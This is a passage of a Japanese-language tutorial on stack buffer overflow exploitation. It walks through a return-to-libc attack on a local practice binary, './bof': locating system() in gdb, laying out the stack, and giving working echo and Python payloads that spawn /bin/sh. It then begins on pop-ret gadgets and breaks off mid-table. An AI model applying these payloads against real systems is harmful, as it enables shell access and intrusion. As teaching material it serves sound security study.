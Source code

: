 system関数の実行では, /bin/sh(bash)を実行することとします。なぜなら, shellを奪えればその後はコマンドを叩いて大抵のことはできるようになるからです。

### 攻撃方法の検討
まず, system関数の場所を確認します。
main関数にbreakpointを立ててrunし, p systemで確認できます。

すると, 以下のように表示されるのでsystem関数は`0xf7e16200`にあることがわかります。
```
$1 = {<text variable, no debug info>} 0xf7e16200 <system>
```

さらに, system関数は第一引数に文字列を指定する必要があるため, とりあえずbuffer変数のアドレス(0x0804a060)を指定します。

すると, 以下のようなスタックの状況を作れれば攻撃が成功しそうです。

|内容|アドレス|補足|
|:-:|:-:|:-:|
|下位のアドレス|0x00000000| |
|...|...|...|
|関数アドレス=リターンアドレス|0xf7e16200|今回はsystem関数の場所|
|関数呼び出し後のリターンアドレス|BBBB|ダミー(あとでprintfと同じようにmain関数の番地にするかも)|
|引数1|0x0804a060|buffer変数の番地|
|...|...|...|
|上位アドレス|0xffffffff|...|

したがって、攻撃文字列は以下のようになります。
`/bin/sh(7文字) + \x00(1文字) + A*(44-7-2＝36文字) + \x00\x62\xe1\xf7 + BBBB + \x60\xa0\x04\x08` 


echoでかくと, 以下のようになる。
```
(echo -e '/bin/sh\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x62\xe1\xf7\x39\x85\x04\x08\x60\xa0\x04\x08'; cat) | ./bof
```

pythonでかくと, 以下のようになる(echoの時は挿入されている\n(改行コード)がないため, \nを挿入している)。
```
(python -c 'import sys; sys.stdout.buffer.write(b"/bin/sh" + b"\x00" + b"A"*36 + b"\x00\x62\xe1\xf7" + b"\x39\x85\x04\x08" + b"\x60\xa0\x04\x08\n")'; cat;) | ./bof
```

## popret gadget
### 概要
先程までの例では, main関数のリターンアドレスとしてmain関数のアドレスを利用していた。
しかし, このリターンアドレスに他の関数のリターンアドレスを埋め込んでおけば2つめの関数を呼び出すことが可能になる。

しかし、以下のように、単純に関数を設定するだけだとスタックの中身が散乱してしまう。

|SP|内容|補足|
|:-:|:-:|:-:|
||下位のアドレス|0x00000000|
||関数1のアドレス||
||関数1のリターンアドレス|関数2のアドレスを入れる|
||関数1の引数1|関数2のリターンアドレスを入れる|
||関数1の引数2|関数2の引数1を入れる|
||関数1の引数3|関数2の引数2を入れる|